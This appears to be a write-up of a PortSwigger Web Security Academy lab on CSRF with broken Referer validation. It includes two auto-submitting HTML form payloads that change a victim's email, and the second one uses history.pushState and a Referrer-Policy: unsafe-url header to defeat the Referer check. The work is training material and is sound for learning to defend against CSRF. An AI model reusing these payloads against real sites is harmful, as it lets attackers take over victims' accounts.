

### CSRF with broken Referer validation : PRACTITIONER

---


> Given credentials `wiener:peter`.

> Logging in with the given credentials.


> We see this page.


> We know that the update email is vulnerable to CSRF.
> Capturing a `POST` request via BURPSUITE PROXY HTTP history while updating the email address.




> We can try CSRF here because there is a relevant action, users tracked using session cookies, and there are no unidentifiable parameters.
> Crafting a payload.

```HTML
<html> 
	<body> 
		<form action="https://0a4b009a03bccf1680fe7b9e00d30003.web-security-academy.net/my-account/change-email" method="POST"> 
			<input type="hidden" name="email" value="newmins@mins.com" /> 
		</form> 
		<script> document.forms[0].submit(); </script> 
	</body> 
</html>
```

> Adding it to the exploit server, storing it, and then viewing it.


> We see that the Referer header is being used.
> We can try to circumvent this header by bypassing the checks done on the contents of this header.

> The checks might be that it simply checks if the required domain is found inside the header.
> In that case, we can add our attacking domain, and then append the required domain of the lab to bypass this check.

> To do that, the payload must be stored in the exploit server.
> Then, take the `POST` request to `/change-email` from HTTP history, and add the domain of the lab itself, the host of the request, as a query parameter 


> Sending this request, we see that the email was changed to the one we added.
> Therefore, we now know that the referer header can be bypassed by simply appending the lab url to include the required domain.

> To do that automatically with our CSRF attack, we add the `history.pushState()` JS function in our script.
> What this does is that it adds a new entry to the browser session's history. It changes the URL without changing the page contents.
> We can use that to first load the required lab domain, and then initiate the POST request to launch the CSRF attack.

```HTMl
<html> 
	<body> 
		<script> history.pushState("", "", "/?0a4b009a03bccf1680fe7b9e00d30003.web-security-academy.net") </script>
		<form action="https://0a4b009a03bccf1680fe7b9e00d30003.web-security-academy.net/my-account/change-email" method="POST"> 
			<input type="hidden" name="email" value="NEWER@mins.com" /> 
		</form> 
		<script> document.forms[0].submit(); </script> 
	</body> 
</html>
```

> Storing it in the exploit server, and then viewing it.
> We still get the same error.


> This is because the `history.pushState()` function alters the `referer` header by adding query parameters. For security reasons, the `?` is stripped by default from the `referer` headers.
> To bypass this, we add the `Referrer-Policy: unsafe-url` header.
> To do that, we add it in the `Head` section of the exploits server.


> Storing and delivering to victim completes the lab.

---
